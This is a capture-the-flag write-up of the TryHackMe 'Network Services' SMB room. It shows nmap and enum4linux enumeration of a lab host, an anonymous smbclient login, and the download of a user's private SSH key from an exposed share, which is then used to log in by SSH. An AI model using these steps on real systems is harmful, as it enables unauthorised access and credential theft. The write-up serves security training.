 # Network Services SMB

---
Date: 2021-12-17  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/networkservices)
---

## Task 3 | Enumerating SMB

First scan service with nmap:

    nmap -sV 10.10.176.114
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 20:13 CET
    Nmap scan report for 10.10.176.114
    Host is up (0.078s latency).
    Not shown: 997 closed tcp ports (reset)
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 17.37 seconds

There you can find that **3 Ports** are open and SMB is running on **Port 139 and 445**.

You also can find the Workgroup **WORKGROUP** and the **Hostname POLOSMB**.

Then we start a Scan with Enum4Linux (Shorted Text):

    enum4linux -a 10.10.176.114
    Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Dec 18 20:15:39 2021
    
    ==========================
    |    Target Information    |
    ==========================
    Target ........... 10.10.176.114
    RID Range ........ 500-550,1000-1050
    Username ......... ''
    Password ......... ''
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    
    =====================================================
    |    Enumerating Workgroup/Domain on 10.10.176.114    |
    =====================================================
    [+] Got domain/workgroup name: WORKGROUP
    
    =============================================
    |    Nbtstat Information for 10.10.176.114    |
    =============================================
    Looking up status of 10.10.176.114
    POLOSMB         <00> -         B <ACTIVE>  Workstation Service
    POLOSMB         <03> -         B <ACTIVE>  Messenger Service
    POLOSMB         <20> -         B <ACTIVE>  File Server Service
    ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
    WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
    WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
    WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
    
            MAC Address = 00-00-00-00-00-00
    
    ======================================
    |    Session Check on 10.10.176.114    |
    ======================================
    [+] Server 10.10.176.114 allows sessions using username '', password ''
    
    ============================================
    |    Getting domain SID for 10.10.176.114    |
    ============================================
    Domain Name: WORKGROUP
    Domain Sid: (NULL SID)
    [+] Can't determine if host is part of domain or part of a workgroup
    
    =======================================
    |    OS information on 10.10.176.114    |
    =======================================
    Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
    [+] Got OS info for 10.10.176.114 from smbclient:
    [+] Got OS info for 10.10.176.114 from srvinfo:
    POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
    platform_id     :       500
    os version      :       6.1
    server type     :       0x809a03
    
    ==============================
    |    Users on 10.10.176.114    |
    ==============================
    Use of uninitialized value $users in print at ./enum4linux.pl line 874.
    Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.
    
    Use of uninitialized value $users in print at ./enum4linux.pl line 888.
    Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.
    
    ==========================================
    |    Share Enumeration on 10.10.176.114    |
    ==========================================
    
            Sharename       Type      Comment
            ---------       ----      -------
            netlogon        Disk      Network Logon Service
            profiles        Disk      Users profiles
            print$          Disk      Printer Drivers
            IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available
    
    [+] Attempting to map shares on 10.10.176.114
    //10.10.176.114/netlogon        [E] Can't understand response:
    tree connect failed: NT_STATUS_BAD_NETWORK_NAME
    //10.10.176.114/profiles        Mapping: OK, Listing: OK
    //10.10.176.114/print$  Mapping: DENIED, Listing: N/A
    //10.10.176.114/IPC$    [E] Can't understand response:
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
    
    =====================================================
    |    Password Policy Information for 10.10.176.114    |
    =====================================================
    
    
    [+] Attaching to 10.10.176.114 using a NULL share
    
    [+] Trying protocol 139/SMB...
    
    [+] Found domain(s):
    
            [+] POLOSMB
            [+] Builtin
    
    [+] Password Info for Domain: POLOSMB
    
            [+] Minimum password length: 5
            [+] Password history length: None
            [+] Maximum password age: 37 days 6 hours 21 minutes
            [+] Password Complexity Flags: 000000
    
                    [+] Domain Refuse Password Change: 0
                    [+] Domain Password Store Cleartext: 0
                    [+] Domain Password Lockout Admins: 0
                    [+] Domain Password No Clear Change: 0
                    [+] Domain Password No Anon Change: 0
                    [+] Domain Password Complex: 0
    
            [+] Minimum password age: None
            [+] Reset Account Lockout Counter: 30 minutes
            [+] Locked Account Duration: 30 minutes
            [+] Account Lockout Threshold: None
            [+] Forced Log off Time: 37 days 6 hours 21 minutes
    
    
    [+] Retieved partial password policy with rpcclient:
    
    Password Complexity: Disabled
    Minimum Password Length: 5

There you can find the **operating system version 6.1**.

Another question is witch share sticks out and thats the **share profiles**.

## Task 4 | Exploiting SMB

We now can anonymously connect to the smb share **/profiles**:

    smbclient //10.10.176.114/profiles -U Anonymous
    Enter WORKGROUP\Anonymous's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Tue Apr 21 13:08:23 2020
    ..                                  D        0  Tue Apr 21 12:49:56 2020
    .cache                             DH        0  Tue Apr 21 13:08:23 2020
    .profile                            H      807  Tue Apr 21 13:08:23 2020
    .sudo_as_admin_successful           H        0  Tue Apr 21 13:08:23 2020
    .bash_logout                        H      220  Tue Apr 21 13:08:23 2020
    .viminfo                            H      947  Tue Apr 21 13:08:23 2020
    Working From Home Information.txt      N      358  Tue Apr 21 13:08:23 2020
    .ssh                               DH        0  Tue Apr 21 13:08:23 2020
    .bashrc                             H     3771  Tue Apr 21 13:08:23 2020
    .gnupg                             DH        0  Tue Apr 21 13:08:23 2020
    
                    12316808 blocks of size 1024. 7584024 blocks available

There we can get the file "Working From Home Information.txt" in witch we can see that **John Cactus** wrote it:

    John Cactus,
    
    As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever
    possible, employees should work from home. As such- your account has now been enabled with ssh
    access to the main server.
    
    If there are any problems, please contact the IT department at it@polointernalcoms.uk
    
    Regards,
    
    James
    Department Manager

Then we can look into the interesting folder **.ssh** where we can see those files:

    smb: \> cd .ssh\
    smb: \.ssh\> ls
    .                                   D        0  Tue Apr 21 13:08:23 2020
    ..                                  D        0  Tue Apr 21 13:08:23 2020
    id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
    id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
    authorized_keys                     N        0  Tue Apr 21 13:08:23 2020
    
                    12316808 blocks of size 1024. 7584024 blocks available

We are interested in the file **id_rsa** and **id_rsa.pub**.

Download it to our client with the command *get id_rsa* and *get id_rsa.pub*.

In the file *get id_rsa.pub* you can see the *ssh username cactus*.

We now can set the permissions for the rsa key with *chmod 600 id_rsa* and connect with ssh with *ssh cactus@10.10.176.114*.

In the home directory of cactus w can find the file smb.txt with the flag